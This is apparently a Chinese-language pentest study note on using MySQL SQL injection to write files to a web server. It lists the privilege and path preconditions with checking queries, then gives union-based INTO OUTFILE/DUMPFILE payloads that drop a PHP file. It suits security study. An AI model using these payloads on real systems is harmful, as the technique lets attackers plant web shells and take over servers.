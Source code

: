 ###### 条件

- 高权限

  ```mysql
select user, file_priv from mysql.user; 
  ```
  
  ![image-20230528210141344](../../../../images/image-20230528210141344.png)

- 知道网站的绝对路径

- `secure_fil_priv`

  ```mysql
  select @@secure_file_priv;
  show global variables like '%secure_file_priv%'; # show语句要堆叠注入和回显
  ```

![image-20230522174929267](../../../../images/image-20230522174929267.png)

###### payload

**基于联合查询**

```mysql
select *from users where id=1 union select 1,'<?php phpinfo();?>',3 into outfile 'C:\info.php';

select *from users where id=1 union select 1,'<?php phpinfo();?>',3 into  dumpfile 'C:\info2.php';
```

`outfile`和`dumpfile`的区别

- `outfile`导出数据支持多行，`dumpfile`只支持一行
- `outfile`会对数据进行转义，`dumpfile`不会
